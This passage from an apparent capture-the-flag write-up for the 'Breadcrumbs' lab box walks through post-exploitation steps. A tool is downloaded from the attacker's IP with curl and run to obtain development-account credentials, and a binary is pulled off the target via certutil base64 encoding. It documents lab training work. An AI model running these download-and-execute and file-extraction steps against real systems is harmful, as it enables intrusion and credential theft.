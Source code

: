 Now that we have it compiled we need to get it onto the breadcrumbs machine. Since cURL was added to Windows we can use that to grab the file from ourself. We can start a webserver with `python3 -m http.server 80` on our kali machine and grab it by using `curl 10.10.14.5/StickySituation.exe -o StickySituation.exe` on breadcrumbs, making sure we are in a directory we have permission to write to. After it is transferred we can run it with `.\StickySituation.exe`.

![](/images/HTB/Breadcrumbs/sticky.png)

We don't get the administrator account however we do get credentials to the development account. Those credentials also work for SSH so let's see what we can do with our new account.

## Development
With some basic enumeration we would have stumbled upon the 'Development' folder in the root of `C:\` which we now have access to. Inside of this directory we have a file called `Krypter_Linux` which seems like an odd thing to find on a Windows box. Obviously since we have been pointed to this file we want to examine it further. We can use certutil to base64 encode the file and decode it back on our kali machine. We can do that with `certutil -encode Krypter_Linux c:\Users\development\AppData\b64` We can `type b64` and copy the contents, excluding the begin/end certificate line. Back on our kali machine we can paste the b64 data into a file and recreate the original file using `cat krypter.b64 | base64 -d > krypter_linux`.

Now that we have the file we can examine it further. Running a `file krypter_linux` shows us that this is ELF executable. We could run it but lets check it with `strings` first. 
